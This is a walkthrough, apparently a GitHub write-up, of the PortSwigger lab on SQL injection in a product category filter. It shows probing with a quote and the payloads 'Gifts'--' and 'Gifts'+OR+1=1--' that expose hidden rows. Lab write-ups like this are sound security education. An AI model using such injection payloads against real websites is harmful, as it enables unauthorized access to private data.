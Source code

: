 
# SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection

---------------------------------------------

When the buttons are clicked it is filtered by category and this is done with a GET request:





<img width="1874" height="805" alt="1" src="https://github.com/user-attachments/assets/aead71fd-92d8-4740-919a-bce004d46e57" />





Find the SQL Vulnerability exsist or not, with using " ' "(/filter?category=Gifts'):



<img width="1872" height="801" alt="2" src="https://github.com/user-attachments/assets/caef62c7-131a-42d5-85f0-ef7557f22b32" />


Using the following payload we get 4 items instead of only 3, because it shows both the released and the hidden one:

```
/filter?category=Gifts'-- 
```



<img width="1876" height="806" alt="3" src="https://github.com/user-attachments/assets/c742c56e-199d-42b3-9a6d-6ff6635508c1" />


To show all values we add OR 1=1 to display all categories:

```
/filter?category=Gifts'+OR+1=1--
```

<img width="1876" height="809" alt="4" src="https://github.com/user-attachments/assets/9666aca6-07ef-4e6c-ab0f-cb7ea7028390" />

